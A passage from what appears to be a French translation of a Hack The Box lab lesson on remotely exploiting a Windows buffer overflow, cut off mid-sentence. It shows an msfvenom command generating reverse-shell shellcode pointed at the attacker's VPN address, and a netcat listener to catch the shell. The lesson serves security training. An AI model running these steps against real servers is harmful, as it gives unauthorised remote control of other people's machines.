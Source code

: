 Exploitation à distance
===================

* * * * *

Comme nous avons construit et testé notre exploit, nous pouvons maintenant essayer de l'exécuter sur un vrai serveur distant. Nous pouvons utiliser le même exploit sur la cible réelle, et nous n'avons qu'à changer `IP` et `port` dans notre script pour le diriger vers la nouvelle cible et changer le shellcode que nous utilisons dans le script pour quelque chose qui nous enverra une coque inversée.

* * * * *

Inverser Shell Shellcode
------------------------

Tout d'abord, nous devons trouver l'adresse IP de notre machine, qui doit être accessible par le serveur distant (dans le même sous-réseau réseau) :

```
dsgsec@htb[/htb]$ ip -4 a

1 : lo : <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
     ...COUPER...
2 : eth0 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
     ...COUPER...
3 : eth1 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
     ...COUPER...
5 : tun0 : <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
     inet 10.10.15.10/23 brd 10.10.15.255 portée globale tun0

```

L'adresse IP que nous utiliserons est celle de `tun0`, car notre VM se trouve sur le même sous-réseau `10.10.`.

Remarque : Vous devez être connecté au VPN pour pouvoir interagir avec le serveur distant, alors téléchargez la clé VPN au cas où vous voudriez exécuter l'exploit depuis votre propre machine. L'instance PwnBox est déjà connectée au VPN, vous devriez donc pouvoir vous connecter au serveur distant.

Ensuite, nous allons générer le shellcode qui nous enverra un reverse shell, que nous pouvons obtenir avec la charge utile `windows/shell_reverse_tcp` dans `msfvenom`, comme suit :

```
dsgsec@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python'

...COUPER...
buf = b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
...COUPER...

```

Nous pouvons modifier notre exploit en copiant la sortie et en l'utilisant dans la fonction `exploit()` pour la variable `buf` .

* * * * *

Exploitation à distance
-------------------

Après cela, nous pouvons démarrer un écouteur `netcat` pour recevoir le shell inverse, comme suit :

```
dsgsec@htb[/htb]$ nc -lvnp 1234

écoute sur [tout] 1234 ...

```

Une fois que nous écoutons, nous pouvons exécuter notre charge utile avec `python win32bof_exploit_remote.py` et attendre que le serveur distant nous envoie un rev
